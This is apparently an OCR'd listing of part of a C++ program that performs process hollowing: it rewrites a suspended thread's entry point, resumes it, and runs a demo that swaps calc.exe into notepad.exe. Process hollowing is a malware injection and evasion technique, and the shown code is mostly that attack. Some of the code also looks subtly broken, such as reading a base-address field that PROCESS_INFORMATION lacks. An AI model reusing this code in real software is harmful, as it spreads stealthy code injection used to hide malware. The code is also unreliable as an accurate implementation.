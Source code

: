 ``` cpp
    if (!GetThreadContext(pi.hThread, &ctx))
    {
        CloseHandle(pi.hThread);
        CloseHandle(pi.hProcess);
        return false;
    }

    // Update the entry point in the context to point to the new image
    ctx.Eax = (DWORD)pi.lpBaseOfImage + ((IMAGE_DOS_HEADER*)pi.lpBaseOfImage)->e_lfanew + ((IMAGE_NT_HEADERS*)(((BYTE*)pi.lpBaseOfImage) + ((IMAGE_DOS_HEADER*)pi.lpBaseOfImage)->e_lfanew))->OptionalHeader.AddressOfEntryPoint;
    if (!SetThreadContext(pi.hThread, &ctx))
    {
        CloseHandle(pi.hThread);
        CloseHandle(pi.hProcess);
        return false;
    }

    // Resume the source process's primary thread
    ResumeThread(pi.hThread);

    // Close handles to the source process and thread
    CloseHandle(pi.hThread);
    CloseHandle(pi.hProcess);

    return true;
}

int main()
{
    // Define the source and target process names
    char* szSourceProcessName = "C:\\\\Windows\\\\System32\\\\calc.exe";
    char* szTargetProcessName = "notepad.exe";

    // Attempt to hollow the target process and print the result
    if (HollowProcess(szSourceProcessName, szTargetProcessName))
    {
        cout << "Process hollowing successful" << endl;
    }
    else
    {
        cout << "Process hollowing failed" << endl;
    }

    return 0;
}

```

### Questions
